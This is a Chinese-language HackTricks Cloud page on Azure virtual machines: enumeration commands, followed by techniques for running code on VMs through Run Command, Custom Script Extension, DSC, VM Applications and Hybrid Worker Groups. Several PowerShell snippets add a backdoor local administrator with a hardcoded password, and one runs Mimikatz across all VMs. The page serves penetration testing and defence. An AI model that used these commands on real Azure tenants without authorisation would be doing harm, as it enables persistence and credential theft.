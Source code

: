 # Az - 虚拟机与网络

{% hint style="success" %}
学习与实践 AWS 黑客技术：<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks 培训 AWS 红队专家 (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
学习与实践 GCP 黑客技术：<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks 培训 GCP 红队专家 (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持 HackTricks</summary>

* 查看 [**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**Telegram 群组**](https://t.me/peass) 或 **关注** 我们的 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub 仓库提交 PR 分享黑客技巧。

</details>
{% endhint %}

## 基本信息

[来自文档：](https://learn.microsoft.com/en-us/azure/virtual-machines/overview) Azure 虚拟机是 Azure 提供的几种类型的 [按需、可扩展计算资源](https://learn.microsoft.com/en-us/azure/architecture/guide/technology-choices/compute-decision-tree) 之一。通常，当您需要对计算环境有比其他选择更多的控制时，您会选择虚拟机。本文提供了在创建虚拟机之前应考虑的信息、如何创建虚拟机以及如何管理虚拟机的信息。

## Azure 网络信息

Azure 网络包含 **不同的实体和配置方式。** 您可以在以下内容中找到不同 Azure 网络实体的简要 **描述、** **示例** 和 **枚举** 命令：

{% content-ref url="az-azure-network.md" %}
[az-azure-network.md](az-azure-network.md)
{% endcontent-ref %}

## Azure Bastion

**Azure Bastion** 提供了一种安全、完全托管的 RDP（远程桌面协议）和 SSH（安全外壳）访问解决方案，通过 Azure 门户通过 SSL 进行访问。它集成在 Azure 虚拟网络中，允许使用私有 IP 进行 RDP 和 SSH 连接到虚拟机，避免了对公共 IP 的需求。这使其成为一种比传统方法更安全、更方便的替代方案，传统方法涉及公共 IP 分配和 NSG 规则配置以访问虚拟机。开发人员和 IT 人员可以通过他们的网页浏览器安全地从 Azure 门户访问虚拟机，从而简化了开发和测试环境的过程。

要列出您订阅中的所有 Azure Bastion 主机，您可以使用以下命令：

{% code overflow="wrap" %}
```bash
az network bastion list --query "[].{name:name, resourceGroup:resourceGrou, location:location}" -o table
```
{% endcode %}

## 虚拟机枚举
```powershell
# Get readable VMs
Get-AzVM | fl
# Lis running VMs
Get-AzureRmVM -status | where {$_.PowerState -EQ "VM running"} | select ResourceGroupName,Name
Get-AzVM -Name <name> -ResourceGroupName <res_group_name> | fl *
Get-AzVM -Name <name> -ResourceGroupName <res_group_name> | select -ExpandProperty NetworkProfile

# Get iface and IP address
Get-AzNetworkInterface -Name <interface_name>
Get-AzPublicIpAddress -Name <iface_public_ip_id>

#Get installed extensions
Get-AzVMExtension -ResourceGroupName <res_group_name> -VMName <name>

Get-AzVM | select -ExpandProperty NetworkProfile # Get name of network connector of VM
Get-AzNetworkInterface -Name <name> # Get info of network connector (like IP)
```
## **在虚拟机中运行命令**

### **在虚拟机中进行AAD登录**

可以允许通过AzureAD认证的用户访问。例如，尝试访问一个**linux虚拟机**：`ssh username@azure-corp.com@1.1.1.1`（在尝试登录时，**使用与azurecorp相同的电子邮件**非常重要），您可能会遇到如下错误： 

{% code overflow="wrap" %}
```
(username@azure-corp.com@1.1.1.1) This preview capability is not for production use. When you sign in, verify the name of the app on the sign-in screen is "Azure Linux VM Sign-in" and the IP address of the target VM is correct.

To sign in, use a web browser to open the page https://microsoft.com/devicelogin and enter the code DT4PNSTGR to authenticate. Press ENTER when ready.
```
{% endcode %}

只需**按照这些说明**前往 [https://microsoft.com/devicelogin](https://microsoft.com/devicelogin) 并输入代码，使用电子邮件和密码作为凭据，您将能够通过 SSH 连接（如果该用户具有足够的权限：`Virtual Machine Administrator Login` 或 `Virtual Machine User Login` 角色）。

### **运行命令**
```powershell
# The permission allowing this is Microsoft.Compute/virtualMachines/runCommand/action
Invoke-AzVMRunCommand -ScriptPath .\adduser.ps1 -CommandId 'RunPowerShellScript' -VMName 'juastavm' -ResourceGroupName 'Research' –Verbose
## Another way
Invoke-AzureRmVMRunCommand -ScriptPath .\adduser.ps1 -CommandId 'RunPowerShellScript' -VMName 'juastavm' -ResourceGroupName 'Research' –Verbose

# Content of the script
$passwd = ConvertTo-SecureString "Welcome2022!" -AsPlainText -Force
New-LocalUser -Name new_user -Password $passwd
Add-LocalGroupMember -Group Administrators -Member new_user
```

```powershell
# Try to run in every machine
Import-module MicroBurst.psm1
Invoke-AzureRmVMBulkCMD -Script Mimikatz.ps1 -Verbose -output Output.txt
```
### **运行自定义脚本扩展**

Azure 虚拟机 (VM) 扩展是 **小型应用程序**，用于在 **Azure VMs** 上提供部署后配置和自动化 **任务**。例如，如果虚拟机需要软件安装、杀毒保护或能够在其中运行脚本，您可以使用 VM 扩展。

因此，如果您有权限进行写入，您可以执行任意代码：
```powershell
# Microsoft.Compute/virtualMachines/extensions/write
Set-AzVMExtension -ResourceGroupName "Research" -ExtensionName "ExecCmd" -VMName "infradminsrv" -Location "Germany West Central" -Publisher Microsoft.Compute -ExtensionType CustomScriptExtension -TypeHandlerVersion 1.8 -SettingString '{"commandToExecute":"powershell net users new_user Welcome2022. /add /Y; net localgroup administrators new_user /add"}'
```
### DesiredConfigurationState (DSC)

DesiredConfigurationState (DSC) 是一个类似于 Ansible 的 PowerShell 工具，用于通过代码设置主机。DSC 与 Azure 集成，允许上传特定的配置文件。这些文件必须遵循严格的语法。值得注意的是，Azure 中的 DSC 扩展可以执行符合某些格式标准的文件中的命令，即使语法不符合 DSC 标准，如提供的图示所示。

这些命令的执行是通过 [**`Publish-AzVMDscConfiguration`**](https://docs.microsoft.com/en-us/powershell/module/az.compute/publish-azvmdscconfiguration?view=azps-7.5.0) 函数在 Az PowerShell 中实现的。要求包括一个定义了函数的 **.PS1** 文件，并且该文件必须被压缩成 **.zip** 文件。尽管语法可能不准确，代码仍然会执行。然而，扩展会将执行状态标记为“失败”，并且由于状态被失败消息覆盖，命令的输出将不可见。

### VM Application Definitions

VM Application Definitions 允许将版本化的应用程序重复部署到 Azure VM。此资源支持在 VM 之间部署和更新应用程序。要设置此功能，需要几个步骤，涉及 Az PowerShell 中的命令，如 **`New-AzGalleryApplication`** 和 **`New-AzGalleryApplicationVersion`**。

通过这种方法执行应用程序或命令涉及 **"VMAppExtension"**，该扩展在应用程序应用于 VM 时自动安装。扩展从指定的 URI 检索文件，并将其命名为与应用程序完全相同，不带扩展名。为了正确执行文件，REST API 调用中的 "ManageActions" 字段必须配置为使用适当的扩展名重命名文件。完成此方法的设置后，将类似于提供的图示所示的结构。

然而，这种执行方法相对较慢，执行一个应用程序或命令大约需要 3-4 分钟。与此过程相关的文件存储在特定目录中（应用程序副本的路径为 `C:\Packages\Plugins\Microsoft.CPlat.Core.VMApplicationManagerWindows\1.0.4\Downloads\`，执行状态的路径为 `C:\Packages\Plugins\Microsoft.CPlat.Core.VMApplicationManagerWindows\1.0.4\Status\`）。

这两种技术提供了在 Azure 环境中执行命令和部署应用程序的独特方式，各自具有一套要求、步骤和注意事项。

### Hybrid Worker Groups (HWGs) in Azure

[**Hybrid Worker Groups (HWGs)**](https://docs.microsoft.com/en-us/azure/automation/automation-hybrid-runbook-worker) 是 Azure 中的一项功能，允许在指定 HWG 的 Azure 虚拟机 (VM) 上执行在自动化帐户中配置的 Runbook。此执行通过安装在 VM 上的扩展来实现，该扩展将 Runbook 代码部署到 VM。此过程的一个重要方面是，实际凭据在执行中不是一个因素，因为代码以提升的权限运行，具体为 **SYSTEM** 或 root，如提供的图示所示。

对于使用 Windows 10 VM 的用户，一个关键细节是必须为 Runbook 指定 PowerShell 版本。应设置为以 PowerShell 版本 5.1 而不是 7.1 运行。这个要求源于 PowerShell 7.1 在这些 VM 上不是默认安装的，如果指定版本 7.1，则会导致脚本执行失败。

Azure 的这一功能提供了一种强大的方法，用于在混合环境中自动化和管理任务，允许在 Azure VM 上集中管理和执行任务。

## References

* [https://learn.microsoft.com/en-us/azure/virtual-machines/overview](https://learn.microsoft.com/en-us/azure/virtual-machines/overview)
* [https://hausec.com/2022/05/04/azure-virtual-machine-execution-techniques/](https://hausec.com/2022/05/04/azure-virtual-machine-execution-techniques/)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
